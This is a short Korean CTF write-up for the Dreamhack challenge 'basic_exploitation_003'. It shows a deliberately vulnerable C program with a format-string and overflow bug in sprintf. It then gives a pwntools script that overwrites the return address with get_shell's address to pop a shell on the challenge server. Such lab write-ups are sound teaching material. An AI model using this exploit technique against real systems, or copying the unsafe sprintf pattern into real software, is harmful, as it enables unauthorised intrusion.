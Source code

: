 # basic_exploitation_003

주어진 소스코드는 다음과 같다.   
```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```   

코드를 살펴보면 ```sprintf(stack_buf, heap_buf);```부분에서 FSB와 BOF 취약점을 확인할 수 있다.   
<br/>

![](1.PNG)   
![](3.PNG)   
gdb로 분석해보면 버퍼의 크기는 0x98이고 get_shell함수의 주소는 0x8048669이다.   
<br/>

이를 가지고 코드를 작성하면 다음과 같다.
```
from pwn import *

p = remote('host1.dreamhack.games', 12134)

payload = "%156c" + p32(0x08048669)

p.send(payload)
p.interactive()
```
